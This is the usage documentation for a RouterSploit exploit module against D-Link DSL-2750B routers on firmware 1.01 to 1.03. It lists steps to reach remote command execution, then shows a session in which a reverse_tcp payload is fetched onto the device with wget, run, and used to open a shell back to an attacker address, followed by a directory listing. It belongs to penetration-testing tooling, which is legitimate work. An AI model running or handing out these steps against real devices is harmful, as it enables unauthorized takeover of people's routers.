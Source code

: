 ## Description

This module exploits remote code execution vulnerability in D-Link DSL-2750B devices through "cli" parameter.
Vulnerable firmwares are 1.01 up to 1.03.

## Verification Steps

    1. Start `./rsf.py`
    2. Do: `use exploits/routers/dlink/dsl_2750b_rce`
    3. Do: `set target [RouterIP]`
    4. Do: `run`
    5. If router is vulnerable, it should be possible to execute commands on operating system level.

    6. Do: `set payload reverse_tcp`
    7. Do: `set lhost [AttackerIP]`
    8. Do: `run`
    9. Payload is sent to device and executed providing attacker with the command shell.

## Scenarios

```
rsf > use exploits/routers/dlink/dsl_2750b_rce
rsf (D-Link DSL-2750B RCE) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (D-Link DSL-2750B RCE) > run
[*] Running module...
[+] Target appears to be vulnerable

[+] Welcome to cmd. Commands are sent to the target via the execute method.
[*] For further exploitation use 'show payloads' and 'set payload <payload>' commands.

cmd > show payloads
[*] Available payloads:

   Payload         Name                   Description
   -------         ----                   -----------
   bind_tcp        MIPSBE Bind TCP        Creates interactive tcp bind shell for MIPSBE architecture.
   reverse_tcp     MIPSBE Reverse TCP     Creates interactive tcp reverse shell for MIPSBE architecture.

cmd > set payload reverse_tcp
cmd (MIPSBE Reverse TCP) > show options

Payload Options:

   Name      Current settings     Description
   ----      ----------------     -----------
   lhost                          Connect-back IP address
   lport     5555                 Connect-back TCP Port


cmd (MIPSBE Reverse TCP) > set lhost 192.168.1.4
lhost => 192.168.1.4
cmd (MIPSBE Reverse TCP) > run
[*] Using wget method
[*] Using wget to download binary
[*] Executing payload on the device
[*] Waiting for reverse shell...
[*] Connection from 192.168.1.1:41933
[+] Enjoy your shell
ls -la
drwxrwxrwx   15 admin    root           224 Mar 11  2013 .
drwxrwxrwx   15 admin    root           224 Mar 11  2013 ..
drwxr-xr-x    2 admin    root          2554 Mar 11  2013 bin
drwxr-xr-x    2 admin    root             3 Mar 11  2013 data
drwxr-xr-x    4 admin    root          2482 Mar 11  2013 dev
drwxr-xr-x   12 admin    root           779 Mar 11  2013 etc
drwxr-xr-x    6 admin    root           690 Mar 11  2013 lib
lrwxrwxrwx    1 admin    root            11 Mar 11  2013 linuxrc -> bin/busybox
drwxr-xr-x    2 admin    root             0 Jan  1  1970 mnt
drwxr-xr-x    5 admin    root            56 Mar 11  2013 opt
dr-xr-xr-x   69 admin    root             0 Jan  1  1970 proc
drwxr-xr-x    2 admin    root           270 Mar 11  2013 sbin
drwxr-xr-x   11 admin    root             0 Jan  1  1970 sys
lrwxrwxrwx    1 admin    root             8 Mar 11  2013 tmp -> /var/tmp
drwxr-xr-x    4 admin    root            38 Mar 11  2013 usr
drwxr-xr-x   16 admin    root             0 Oct 19 20:36 var
drwxr-xr-x    5 admin    root          2801 Mar 11  2013 webs
```
